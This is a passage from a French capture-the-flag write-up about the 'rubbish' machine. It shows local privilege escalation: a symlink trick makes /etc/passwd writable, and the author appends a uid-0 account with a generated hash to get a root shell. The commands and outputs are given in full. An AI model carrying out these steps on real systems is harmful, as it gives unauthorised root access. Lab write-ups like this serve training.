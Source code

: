 > chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions.  
> 
> This is not a problem since the permissions of symbolic links are never used.  
> 
> However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file.  
> 
> In contrast, chmod ignores symbolic links encountered during recursive directory traversals.

C'est assez clair :) On peut donc créer notre lien symbolique vers */etc/passwd* ou */etc/crontab*. Il faut éviter les fichiers sous */root* car ce dernier ne permet pas la traversée du dossier.  

```plain
www-data@rubbish:~/nginx$ ln -s /etc/passwd devloop.cgi
www-data@rubbish:~/nginx$ ls -l cgi-bin
lrwxrwxrwx 1 www-data www-data  11 Jan  5 04:22 devloop.cgi -> /etc/passwd
www-data@rubbish:~/nginx$ ls -l /etc/passwd
-rwxrwxrwx 1 root root 2545 Jan  3 21:18 /etc/passwd
```

Maintenant que l'on a les bonnes permissions on utilise ce one-liner pour générer un hash (*openssl passwd* fait aussi l'affaire)

```bash
python3 -c 'import crypt,getpass; print(crypt.crypt(getpass.getpass(), crypt.mksalt(crypt.METHOD_SHA512)))'
```

On rajoute quelques infos autour du hash et on l'ajoute à */etc/passwd* :

```plain
www-data@rubbish:~/nginx$ echo 'devloop:$6$YbrFJJEvCx4..w5p$6kP2eYweyD4v.euBgC7lM9rOsHxWJA8u8dY2d0N3lneDXqeYqbzWMQ7QkOrmZW.3IrRBg.ObylQiAp.9JjNdQ/:0:0:devloop:/root:/bin/bash' >> /etc/passwd
www-data@rubbish:~/nginx$ su devloop
Password: thisisdope
root@rubbish:/var/www/nginx# id
uid=0(root) gid=0(root) groups=0(root)
```

Et voilà ! Un CTF avec de bonnes idées :) La solution raccourcie est presque dommage :|

*Published November 17 2020 at 14:55*
